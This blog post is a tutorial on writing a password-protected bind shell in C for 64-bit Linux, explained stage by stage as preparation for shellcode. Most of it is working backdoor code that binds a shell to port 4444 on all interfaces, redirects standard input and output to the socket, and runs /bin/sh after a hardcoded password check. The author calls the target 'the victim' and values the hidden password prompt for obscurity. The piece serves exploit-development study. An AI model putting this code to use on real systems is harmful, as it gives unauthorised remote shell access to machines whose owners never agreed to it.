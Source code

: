 ```yaml
---
title: "Writing a password protected bind shell in C"
date: 
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.
To accomplish this goal, we need to take this process through 3 parts:
Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.
Secondly, the C code needs to be ported to x86_64 Assembly code.
Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.
This blog post will consist of two parts:
Part 1 - Writing a password protected bind shell in the C Programming Language
Par 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode
 PART 1 - Writing a password protected bind shell for Linux in C
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.
What is a Bind Shell?
A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.
Creating the Bind Shell
In the process of creating a bind shell, we will be stepping through 7 stages:
Creating a new socket
Binding the newly created socket to a port
Listen for incoming connections on the newly created socket
Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.
Wait for input (password) to be received and compare it against the correct password string
Spawn the shell, if password is correct
So let's get started in coding out the 7 stages.
Stage 1 - Creating a new socket
The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```C
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. Referring to the man page for socket, it requires 3 arguments:
Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)
Communication Type - We will use SOCK_STREAM (TCP)
The third argument does not concern us so we will only pass 0
sock = socket(AF_INET, SOCK_STREAM, 0);
The return value for the above syscall will be a file descriptor for the new socket.
Stage 2 - Binding the newly created socket to a port
In this step we will assign an address to the newly created socket. We will use the bind syscall for this. The bind syscall again takes 3 arguments:
The socket to bind to - We will use our new socket "sock"
Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.
Length of the data structure passed in argument 2. This was declared during the skeleton code stage.
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                     //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
Stage 3 - Listen for incoming connections on the newly created socket
The listen syscall accepts 2 arguments:
File descriptor of new socket in Stage 1
Backlog - Maximum number of pending connections in the queue 
listen(sock, 2);
Stage 4 - Wait for incoming connections on the newly created socket and if a connection is initiated, create a NEW socket and close the original socket
For this stage we will wait for connections on our newly created socket, using the accept syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.
The accept syscall takes 3 arguments:
The socket we are listening on
Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. 
Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code. 
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
The return value of the accept syscall is a new file descriptor pointing to the newly created socket.
Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities
For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the dup2 syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
Stage 6 - Wait for input (password) to be received and compare it against the correct password string
Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the read syscall.
The read syscall accept 3 arguments:
File descriptor of our newly created socket
Buffer - was assigned at the variables section of the code
Number of bytes to read from the file descriptor into the buffer
We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
Stage 7 - Spawn the shell, if password is correct
So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the execve syscall, as specified in the variables section.
The execve syscall executes a program using:
Pathname of the executable or script to run
A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable
Environmental variables for use by the program - We set this to NULL as we are not concerned with this
execve(arguments[0], &arguments[0], NULL);
Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.
The code for the password protected bind shell can be found here.
I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better.
In PART 2 we will be discussing how to port all of the above to x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
